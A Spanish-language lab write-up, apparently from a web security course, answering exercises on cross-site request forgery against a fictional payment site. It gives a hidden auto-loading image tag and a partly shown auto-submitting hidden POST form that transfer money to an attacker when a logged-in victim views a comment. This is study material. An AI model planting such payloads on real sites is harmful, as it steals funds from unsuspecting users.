 #### b) Una vez lo tenéis terminado, pensáis que la eficacia de este ataque aumentaría si no necesitara que el usuario pulse un botón. Con este objetivo, cread un comentario que sirva vuestros propósitos sin levantar ninguna sospecha entre los usuarios que consulten los comentarios sobre un jugador (show_comments.php).

Voy a usar una imagen de carga automática en lugar de un formulario. Este método funciona al cargar una URL con unos parámetros específicos a través de la etiqueta “<img>”, lo que provoca que el navegador haga una solicitud GET a la URL del ataque. Aquí un ejemplo más simple:

```php
<!-- Script de ataque CSRF -->
<img src="http://web.pagos/donate.php?amount=100&receiver=attacker" style="display:none" alt="">

```

Básicamente utilizo esta etiqueta <img> para cargar automáticamente la URL del ataque. La imagen no se muestra en la página gracias a style="display:none", pero el navegador igualmente realizará una solicitud a la URL especificada en el source, realizando una solicitud GET a esta URL automáticamente cuando la página se carga.

#### c) Pero 'web.pagos' sólo gestiona pagos y donaciones entre usuarios registrados, puesto que, evidentemente, le tiene que restar los 100€ a la cuenta de algún usuario para poder añadirlos a nuestra cuenta.

#### Explicad qué condición se tendrá que cumplir para que se efectúen las donaciones de los usuarios que visualicen el mensaje del apartado anterior o hagan click en el botón del apartado a).

El **usuario** debe estar **actualmente autenticado** y tener una sesión activa en web.pagos, lo cual significa que el usuario debe haber iniciado sesión y el navegador debe tener una **cookie de sesión válida** que identifique al usuario en este sitio.

Y no solo eso, sino que la sesión del usuario no debe haber expirado, ya que en tal caso, el sitio no procesará la solicitud CSRF porque la autenticación del usuario no será válida y fallará.

#### d) Si 'web.pagos' modifica la página 'donate.php' para que reciba los parámetros a través de POST, quedaría blindada contra este tipo de ataques? En caso negativo, preparad un mensaje que realice un ataque equivalente al de la apartado b) enviando los parámetros “amount” i “receiver” por POST.

Modificar la página de donaciones para que reciba los parámetros a través de POST en lugar de GET no blinda completamente el sitio contra ataques CSRF. Aunque el uso de métodos POST para enviar datos sensibles sea útil, los ataques de este tipo pueden seguir siendo posibles si no se implementan medidas adicionales de protección, como los tokens CSRF.

A continuación un ejemplo, donde te muestro cómo se puede realizar un ataque CSRF enviando los parámetros amount y receiver a través de POST. El método consiste en crear un formulario oculto que se envía automáticamente cuando se carga la página:

```php
 <script>
        // Script de ataque CSRF que se ejecutará al cargar la página
        window.onload = function() {
            // Crear un formulario oculto
            var form = document.createElement('form');
            form.method = 'POST';
            form.action = 'http://web.pagos/donate.php';

            // Crear el campo de entrada para amount
            var amountField = document.createElement('input');
            amountField.type = 'hidden';
            amountField.name = 'amount';
            amountField.value = '100';
            form.appendChild(amountField);

            // Crear el campo de entrada para receiver
```